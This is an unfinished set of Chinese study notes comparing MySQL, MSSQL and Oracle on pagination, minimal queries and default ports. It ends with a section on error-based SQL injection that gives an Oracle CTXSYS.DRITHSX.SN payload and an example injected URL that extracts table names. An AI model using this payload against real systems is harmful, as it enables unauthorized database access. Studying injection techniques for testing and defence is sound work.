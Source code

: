 ### oracle

```sql
select * from (select *,rownum n from tb1 order by active_count desc) where n > 10 and n<=20 
```

## 最短查询语句
### mysql
```sql
select 1
```
### mssql
```sql
select 1
```
### oracle
```sql
select 1 from dual -- dual虚表用来满足oracle严格的语法
```

## 默认端口
### mysql
3306
### mssql
1433
### oracle
1521

# 三大数据库报错注入(未完成)

## mysql
### 函数
```sql

```
## mssql
## oracle
### 函数
```sql
CTXSYS.DRITHSX.SN(user,(select col1 from tb1 where rownum=1))
```
### 利用
```sql
https://api.xxx.com/news?id=1' 
where 1=CTXSYS.DRITHSX.SN(123456,(select table_name from user_tables where rownum=1))
-- a
```
